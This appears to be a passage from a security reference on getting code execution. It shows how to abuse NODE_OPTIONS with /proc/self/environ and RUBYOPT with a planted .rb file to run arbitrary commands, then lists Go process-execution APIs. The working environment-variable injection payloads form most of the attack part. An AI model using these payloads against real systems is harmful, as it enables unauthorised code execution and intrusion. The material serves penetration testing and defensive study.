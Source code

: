 If there is no way to write a module to a file system you can use the proc filesystem, specifically `/proc/self/environ`, to deliver a payload.

```bash
$ AAAA='console.log(require("child_process").execSync("id").toString());//' NODE_OPTIONS'=--require /proc/self/environ' node node /dev/null
```

However, there are two constraints:

1. Using `/proc/self/environ` is only possible if the content is syntactically valid JavaScript. To do this, you need to be able to create an environment variable and make it appear first in the contents of `/proc/self/environ`.
1. Since the value of the first environment variable ends with a single-line comment `//`, any newlines in other environment variables will cause a syntax error. Using multiline comments `/*` will not solve the problem, as they must be closed to be syntactically valid. In such cases, it is necessary to overwrite the value of the variable that contains the newline character.

References:
- [elttam Blog: HACKING WITH ENVIRONMENT VARIABLES Interesting environment variables to supply to scripting language interpreters](https://www.elttam.com/blog/env/)
- [Exploiting prototype pollution – RCE in Kibana (CVE-2019-7609)](https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/)

## RUBYOPT

`RUBYOPT` specifies command-line options.

`RUBYOPT` can be used to execute arbitrary commands if there is a way to write a malicious Ruby library to a file system. `-r` option causes Ruby to load the library using require but this is limited to files with an extension of `.rb` or `.so`:

```bash
$ cat > /tmp/exec.rb << EOF
puts `cmdname arg1 arg2`
EOF
$ RUBYOPT=-r/tmp/exec.rb ruby /dev/null
```

References:
- [elttam Blog: HACKING WITH ENVIRONMENT VARIABLES Interesting environment variables to supply to scripting language interpreters](https://www.elttam.com/blog/env/)

# Languages

## Go

```golang
// https://pkg.go.dev/os#StartProcess
// os.StartProcess
var procAttr = os.ProcAttr
os.StartProcess(
    "cmdname",
    []string{"arg1", "arg2"},
    &procAttr,
)

// https://pkg.go.dev/os/exec#Command
// os/exec.Command
exec.Command("cmdname", "arg1", "arg2").Run()

// command line execution
cmd := exec.Command("bash", "-c", "cmdname arg1 arg2")
out, err := cmd.Output()

// https://pkg.go.dev/os/exec#CommandContext
```